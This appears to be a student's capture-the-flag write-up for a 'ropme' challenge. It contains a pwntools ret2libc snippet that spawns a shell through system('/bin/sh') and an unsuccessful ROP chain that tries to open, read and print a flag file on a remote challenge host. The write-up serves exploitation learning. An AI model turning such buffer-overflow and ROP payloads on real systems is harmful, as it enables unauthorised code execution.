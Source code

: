 ```python
payload = b"A" * 0x4ce
payload += p32(system)
payload += p32(0xdeadbeef)
payload += p32(bin_sh)

p.sendlineafter("?\n", payload)

p.interactive()
```


ropme
==========================================================
General overview:
----------------------------------------------------------
1. I couldn't work out how to complete this challenge unfortunately. Despite my best efforts.
2. My understand was that this would be an exercise where you would attempt to open the flag file, read it, then write the string received back. (The flag file). However as open() doesn't interact with fgets() (file descriptor vs file pointer), it wasn't working.
3. Another problem I had was that working on this locally I had to use gdb to change the name of the stored flag file (from "/flag" to "flag"), how do you have a flag named "/flag" in Linux?

Flag:
----------------------------------------------------------
    FLAG{}

Script used:
----------------------------------------------------------

```python
#!usr/bin/python

from pwn import *

p = remote("plsdonthaq.me", 6004)

payload = b"A" * 0xc

# payload += p32(0x08048592)
# payload += p32(0x12345678)

# payload += p32(0x08048592)
# payload += p32(0x12345678)
# payload += p32(0x0804864a)

# Open up the flag file
payload += p32(0x080483c0)  # open()
payload += p32(0x0804860a)  # pop; pop; ret (to ignore the arguments)
payload += p32(0x0804864a)  # "/flag"
payload += p32(0x00000000)  # 0 for mode

# Read the flag file (reusing fgets() from vuln (pointing to just after eax is loaded with stdin))
payload += p32(0x08048522)  # fgets (with the fd from the above open, which is now pushed to the stack)

# Write the flag to stdout (the next thing on the stack should be the buffer from the fgets())
payload += p32(0x08048592)  # puts (with ecx pushed onto the stack which puts the string from the file) and return
payload += p32(0x12345678)  # dummy return value

p.sendlineafter("data:", payload)

p.interactive()
```
